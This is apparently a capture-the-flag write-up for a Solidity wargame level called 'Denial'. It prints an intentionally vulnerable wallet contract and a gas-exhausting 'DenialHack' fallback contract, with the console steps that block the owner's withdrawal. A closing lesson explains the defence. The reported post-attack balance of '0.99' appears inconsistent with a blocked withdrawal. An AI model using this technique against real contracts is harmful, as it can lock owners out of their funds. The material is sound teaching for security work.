 # Denial
_difficulty 5/10_

This is a simple wallet that drips funds over time. You can withdraw the funds slowly by becoming a withdrawing partner.  


If you can deny the owner from withdrawing funds when they call `withdraw()` (whilst the contract still has funds) you will win this level.  

## Sources
```javascript
pragma solidity ^0.4.24;

import 'openzeppelin-solidity/contracts/math/SafeMath.sol';

contract Denial {

    using SafeMath for uint256;
    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address public constant owner = 0xA9E;
    uint timeLastWithdrawn;
    mapping(address => uint) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint amountToSend = address(this).balance.div(100);
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call.value(amountToSend)();
        owner.transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = now;
        withdrawPartnerBalances[partner] = withdrawPartnerBalances[partner].add(amountToSend);
    }

    // allow deposit of funds
    function() payable {}

    // convenience function
    function contractBalance() view returns (uint) {
        return address(this).balance;
    }
}
```

## Level author  
Adrian Manning  
age@agemanning.com  
https://github.com/AgeManning  

## Solution

1. Deploy a withdrawal contract that will receive funds. This contract should spend all the gas when receiving funds, so no further contract lines are executed. Using Remix, deploy the `DenialHack.sol`.

```javascript
pragma solidity ^0.4.24;

contract DenialHack {
    function() public payable {
        // assert will consume all gas
        assert(false);
    }
}
```

2. Check `Denial` contract balance.  
`await getBalance(instance)`  
"1"  

3. Set withdraw partner.
`let partner = 0x...` - set to your new contract address  
`await contract.setWithdrawPartner(partner)`  

3. Withdraw funds
`await contract.withdraw();`

4. Check `Denial` contract balance.  
`await getBalance(instance)`  
"0.99"  

5. Submit Instance 🎉  

## Lesson
This level demonstrates that external calls to unknown contracts can still create denial of service attack vectors if a fixed amount of gas is not specified.


If you are using a low level `call` to continue executing in the event an external call reverts, ensure that you specify a fixed gas stipend. For example `call.gas(100000).value()`.


Typically one should follow the [checks-effects-interactions](http://solidity.readthedocs.io/en/latest/security-considerations.html#use-the-checks-effects-interactions-pattern) pattern to avoid reentrancy attacks, there can be other circumstances (such as multiple external calls at the end of a function) where issues such as this can arise.
